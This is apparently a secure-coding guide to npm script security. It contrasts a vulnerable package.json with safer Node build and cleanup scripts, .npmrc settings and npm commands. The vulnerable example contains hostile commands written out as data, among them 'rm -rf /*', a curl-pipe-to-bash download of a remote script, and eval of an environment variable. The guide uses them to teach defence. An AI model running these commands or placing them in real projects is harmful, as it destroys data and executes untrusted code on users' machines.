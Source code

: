 ```yaml
---
title: Insecure NPM Scripts
description: Securing npm scripts and preventing script injection attacks
---
```


## Common Misconfigurations

1. **Running untrusted packages' scripts automatically**
2. **Using unsafe script commands**
3. **Not validating environment variables in scripts**
4. **Missing script injection protection**
5. **Excessive permissions in scripts**

## Vulnerable Example

```json
// package.json with insecure scripts
{
  "name": "insecure-scripts-app",
  "scripts": {
    // Command injection vulnerability
    "build": "echo Building $npm_package_version && webpack",
    
    // Unsafe rm command
    "clean": "rm -rf /*",
    
    // Downloading and executing remote scripts
    "setup": "curl -s [https://unknown-site.com/script.sh](https://unknown-site.com/script.sh) | bash",
    
    // Using eval with user input
    "process": "node -e \"eval(process.env.USER_INPUT)\"",
    
    // No validation on file operations
    "deploy": "cp -r ./* $DEPLOY_PATH",
    
    // Running with elevated privileges
    "install": "sudo npm link"
  }
}

// No .npmrc security settings
// No ignore-scripts configuration
````

## Secure Solution

```json
// package.json with secure scripts
{
  "name": "secure-scripts-app",
  "scripts": {
    // Safe, validated commands
    "build": "node scripts/build.js",
    "clean": "node scripts/clean.js",
    "test": "jest --coverage",
    "lint": "eslint src/",
    
    // Use npm run-script for chaining
    "prebuild": "npm run clean",
    "postbuild": "npm run test",
    
    // Validated deployment
    "deploy": "node scripts/deploy.js --validate"
  }
}
```

```settings
# .npmrc with security configurations
ignore-scripts=true
audit-level=moderate
fund=false
```

```javascript
// scripts/build.js - Secure build script
const { execSync } = require('child_process');
const path = require('path');

// Validate environment
const version = process.env.npm_package_version;
if (!/^\d+\.\d+\.\d+$/.test(version)) {
  throw new Error('Invalid version format');
}

// Use safe paths
const buildPath = path.join(__dirname, '..', 'dist');

// Execute with limited permissions
try {
  execSync('webpack --mode production', {
    stdio: 'inherit',
    cwd: process.cwd(),
    env: {
      ...process.env,
      NODE_ENV: 'production'
    }
  });
} catch (error) {
  console.error('Build failed:', error.message);
  process.exit(1);
}
```

```javascript
// scripts/clean.js - Safe cleanup script
const fs = require('fs').promises;
const path = require('path');

const ALLOWED_PATHS = ['dist', 'build', '.cache'];

async function clean() {
  for (const dir of ALLOWED_PATHS) {
    const fullPath = path.join(process.cwd(), dir);
    
    // Validate path is within project
    if (!fullPath.startsWith(process.cwd())) {
      console.error(`Invalid path: ${dir}`);
      continue;
    }
    
    try {
      await fs.rm(fullPath, { recursive: true, force: true });
      console.log(`Cleaned: ${dir}`);
    } catch (error) {
      // Directory doesn't exist, skip
    }
  }
}

clean().catch(console.error);
```

## Key Commands for Managing Scripts

Understanding these commands is critical for implementing the security practices described above.

### 1\. Running a Script

This is the standard command to execute a script defined in your `package.json` `scripts` object.

```bash
npm run <script-name>
# Example:
npm run build
```

*Note: Some common scripts like `test`, `start`, `stop`, and `restart` have shortcuts and can be run without the `run` keyword (e.g., `npm test`).*

### 2\. Disabling All Lifecycle Scripts

This is the most important command for securing your environment, as shown in the `.npmrc` solution. It prevents potentially malicious `preinstall`, `install`, and `postinstall` scripts from running automatically when you add packages.

```bash
# Sets this configuration in your .npmrc file
npm config set ignore-scripts true
```

After running this, all package scripts must be triggered manually, giving you a chance to vet them.

### 3\. Running `npm install` Safely (One Time)

If you don't want to set `ignore-scripts` permanently but want to install a new, untrusted package safely, you can use the `--ignore-scripts` flag for a single command:

```bash
npm install <package-name> --ignore-scripts
```

This will install the package without running any of its lifecycle scripts.

### 4\. Listing All Available Scripts

To see all scripts defined in the `package.json`, simply run:

```bash
npm run
```

This will list all available script names, which is useful for knowing what you *can* run manually.

### 5\. Passing Arguments to Scripts

This is essential for the secure pattern of using Node.js scripts. To pass arguments (like `--validate` in the example), you must use `--` to separate the npm command from the arguments you want to pass to your script.

```bash
npm run <script-name> -- --your-argument --value=some-value
```

**Example from "Secure Solution":**

```bash
# This passes "--validate" to the "node scripts/deploy.js" command
npm run deploy -- --validate
```

Any arguments *before* the `--` are for npm itself; any arguments *after* are for your script.

## Best Practices

  * Set `ignore-scripts=true` in `.npmrc`.
  * Validate all environment variables.
  * Use dedicated script files instead of inline commands.
  * Avoid shell command execution when possible.
  * Implement proper input validation.
  * Never use `eval()` or `Function()` with user input.

